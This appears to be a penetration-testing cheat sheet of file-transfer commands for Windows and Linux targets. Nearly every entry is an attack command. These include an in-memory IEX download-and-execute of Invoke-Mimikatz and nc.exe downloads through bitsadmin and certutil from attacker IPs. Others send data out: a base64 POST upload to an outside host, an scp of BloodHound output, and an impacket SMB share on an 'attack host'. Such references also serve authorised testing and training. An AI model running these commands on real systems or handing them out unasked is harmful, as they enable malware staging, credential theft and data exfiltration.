 # File Transfert

% linux, windows


## Download a file with PowerShell
```
Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
```

## Execute a file in memory using PowerShell
```
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
```

## Upload a file with PowerShell
```
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

## Download a file using Bitsadmin
```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## Download a file using Certutil
```
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## Download a file using Wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## Download a file using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Download a file using PHP
```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## Upload a file using SCP
```
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

## Download a file using SCP
```
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Invoke-WebRequest using a Chrome User Agent
```
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```
## Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/
```

## Uses smbserver.py with password support (in case GPO blocks anonymous access) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.
```
python3 smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share $(pwd)
```
## Mount disk on a drive
```
Cmd > net use Z: \\10.10.14.153\share /u:snovvcrash 'Passw0rd!'
```
